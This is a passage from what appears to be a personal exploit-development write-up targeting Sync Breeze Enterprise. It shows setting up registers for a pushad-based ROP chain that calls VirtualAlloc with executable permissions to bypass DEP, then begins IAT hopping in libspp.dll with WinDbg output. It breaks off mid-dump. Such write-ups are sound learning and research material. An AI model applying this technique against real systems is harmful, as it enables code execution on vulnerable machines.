 ```
Push EAX, ECX, EDX, EBX, original ESP, EBP, ESI, and EDI
```

So if we can get the right values in each register then call `pushad` it will create the stack frame.

Looking at MSDN `VirtualAlloc` needs these parameters:
```
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

For these we can set the following static values:
```
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize, # 0x01 has to be non 0
  [in]           DWORD  flAllocationType, #MEM_COMMIT 0x1000
  [in]           DWORD  flProtect # PAGE_EXECUTE_READWRITE 0x40
);
```

Following the calling convention we need the registers to be set up as follows:
```
EAX = NOP (0x90909090)
ECX = flProtect # 0x40
EDX = flAllocationType #0x1000
EBX = dwSize # not 0
ESP = lpAddress # automatic, as this is the stackpointer lol
EBP = pointer to JMP ESP
ESI = pointer to VirtualAlloc
EDI = ROPNOP (RET)
```

Now the joys of setting this up :D

# IAT Hopping
For lols

In the stream, OJ did IAT hopping, and it was super cool, so I'm going to do it too.

The basic premise is to get the address of a KERNEL32 pointer from `libspp.dll` and then find a offset in KERNEL32 to `KERNELBASE!VirtualAlloc` 

To find a pointer in `libspp.dll` we can dump the import address table for libspp.dll:
```
0:007> lm
start    end        module name
00400000 00463000   syncbrs  C (export symbols)       C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
007d0000 008a4000   libpal   C (export symbols)       C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
008b0000 00965000   libsync    (deferred)             
10000000 10226000   libspp   C (export symbols)       C:\Program Files (x86)\Sync Breeze Enterprise\bin\libspp.dll
0:007> !dh 0x10000000
... snip ...
       0  DLL characteristics
  187F40 [   4FC8F] address [size] of Export Directory
  184B00 [      8C] address [size] of Import Directory
       0 [       0] address [size] of Resource Directory
       0 [       0] address [size] of Exception Directory
       0 [       0] address [size] of Security Directory
```